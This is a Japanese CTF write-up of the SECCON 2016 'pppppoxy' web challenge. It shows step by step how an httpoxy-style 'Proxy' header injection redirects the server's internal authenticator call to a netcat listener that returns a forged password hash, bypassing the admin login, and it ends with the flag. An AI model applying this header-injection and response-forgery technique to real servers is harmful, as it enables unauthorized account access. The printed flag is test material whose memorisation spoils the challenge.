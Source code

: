 # pppppoxy [Web / 200pt]

## Problem

Log in as admin and get the flag

[pppppoxy.zip](https://github.com/AkashiSN/SECCON2016-Online-CTF/blob/master/Web/pppppoxy/pppppoxy.zip).

`password:noinfected`

## Answer

```plain
$ file pppppoxy.exe 
pppppoxy.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

`.NET`のプログラムのよう

あぁこれは箱庭シリーズだな

とにかく実行してみよう

![img](img.png)

ブラウザが立ち上がって`127.0.0.1`にアクセスしている

ってことは内部でサービスが立ち上がってるってことか

![img](img1.png)

`curl`でアクセスしてみた

タイトルの`poxy`は`汚い`っていう意味らしい

（最初から`proxy`かと思ってた・・・）

ってことは[15年来のセキュリティホール「httpoxy」、PHPやPythonなどCGIアプリに影響](https://japan.zdnet.com/article/35086098/)これかな〜

ざっくりいうと、`Proxy`ヘッダーを細工するとサーバーを任意の`URL`に誘導することができる脆弱性

ってことで`nc`で`8080`ポートでリッスンしておいて`Proxy`にそれを指定してみよう

```cmd
> curl -H "Proxy: http://127.0.0.1:8080" http://127.0.0.1/ --data "user=admin&pass=hoge"
```

こんな感じのリクエストを

```cmd
> nc -l -p 8080
```

で受け付けてやる

![img](img2.png)

するとサーバー側から

```plain
GET http://127.0.0.1/Authenticator?user=admin HTTP/1.0
Host: 127.0.0.1
User-Agent: poxyclient/0.1
```

というリクエストが飛んでくる

`http://127.0.0.1/Authenticator?user=admin`にアクセスしてみると

![img](img3.png)

```plain
C:\Users\IEUser>curl -i http://127.0.0.1/Authenticator?user=admin
HTTP/1.0 200 OK
Content-Type: text/plain
Server: poxyserver/0.1
Content-Length: 43
Connection: close
X-XSS-Protection: 0
Expires: Sat, 10 Dec 1977 00:00:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache

{"hash":"C432A8174394A3F655B2BD29BB075E4C"}
```

このハッシュはMD5のよう・・・

データベースを検索してみても見つからなかった・・・

そもそもなぜこのようなとこにアクセスするのかを考えると、

`/`は`POST`されてきた`user`と`pass`を認証するために`/Authenticator?user=`にリクエストを送る

`/Authenticator`は`GET`で指定されたユーザーのパスワードのハッシュ値を返す。

パスワードのハッシュ値を受け取った`/`は`POST`されてきた`pass`のハッシュ値と比較して一致していればログイン処理を行う。

つまり`/Authenticator`が返すハッシュ値を自分で入力したパスワードのハッシュ値に書き換えると認証を突破することができそう

適当に`hoge`のパスワードのハッシュ値を返すようにしてあげる

（`echo`は標準では改行文字を出力するので`-n`で抑制してあげる(結構ハマった)）

```bash
$ echo -n "hoge" | md5sum | tr [a-z] [A-Z] 
EA703E7AA1EFDA0064EAA507D9E8AB7E  -
```

```plain
HTTP/1.0 200 OK
Content-Type: text/plain
Content-Length: 43

{"hash":"EA703E7AA1EFDA0064EAA507D9E8AB7E"}
```

このようなレスポンスをしてあげれば良さそう

(`Windows`での`cat`は`type`)

```cmd
> type res.txt
HTTP/1.0 200 OK
Content-Type: text/plain
Content-Length: 43

{"hash":"EA703E7AA1EFDA0064EAA507D9E8AB7E"}
```

このようなファイルを作ってあげて

```cmd
> type res.txt | nc -l -p 8080
```

リクエストを受けたら`res.txt`の内容のレスポンスを返すようにしてやる

```cmd
> curl -H "Proxy: http://127.0.0.1:8080" http://127.0.0.1/ --data "user=admin&pass=hoge"
```

さっきみたいにリクエストを送ってあげるとFLAGが返ってくる

![img](img4.png)

`SECCON{D5691FB40B2AF60CA78DA78AC65A71E2}`